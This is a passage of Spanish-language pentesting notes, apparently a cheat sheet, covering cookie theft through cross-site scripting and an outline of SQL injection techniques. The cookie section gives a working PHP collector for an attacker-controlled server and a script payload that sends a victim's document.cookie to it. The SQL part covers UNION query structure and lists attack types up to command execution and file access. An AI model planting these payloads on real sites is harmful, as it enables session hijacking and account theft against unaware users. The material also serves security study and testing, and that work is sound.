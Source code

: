 - <https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>
- <https://html5sec.org/>

### Robo de Cookies

Primero se sube un fichero (cookies.php) con el siguiente código en algún servidor en el que se tenga control:

```php
<?php
    $handle=fopen("cookies_list.txt","a");
    fputs($handle,"\n".$_GET["cookie"]."\n");
    fclose($handle);
?>
```

Ejemplo a petición para forzar al cliente a enviarnos sus cookies:

```html
<script>
    var i=new Image(); i.src="http://dominio/cookies.php?"%2bdocument.cookie;
</script>

%2b -> +
```

## SQL Injection

Se suele inyectar código SQL en los parámetros GET y POST pero es posible hacerlo en cualquier parámetro que forme parte de una consulta como por ejemplo en las cookies, cabecera referer, etc.

Estructura estandar de una consulta SQL:

```sql
SELECT [columna] FROM [tabla] WHERE [condicion]
```

Se usa UNION para unir el resultado de dos consultas:

```sql
SELECT [columna] FROM [tabla] WHERE [condicion] UNION 
SELECT [columna] FROM [tabla] WHERE [condicion]
```

Es importante que ambas consultas tengan el mismo número de columnas a devolver.

### Tipos de SQL Injection

- **SQL Injection (Mediante UNION)**
- **Serialized SQL Injection**
- **Boolean-Based SQL Injection**
- **Time-Based SQL Injection**
- **Heavy-Queries SQL Injection**
- **Stack-Queries**
- **Ataques avanzados mediante SQL Injection:**
  - **Ejecutar comandos**
  - **Lectura de ficheros**
  - **Escritura de ficheros**
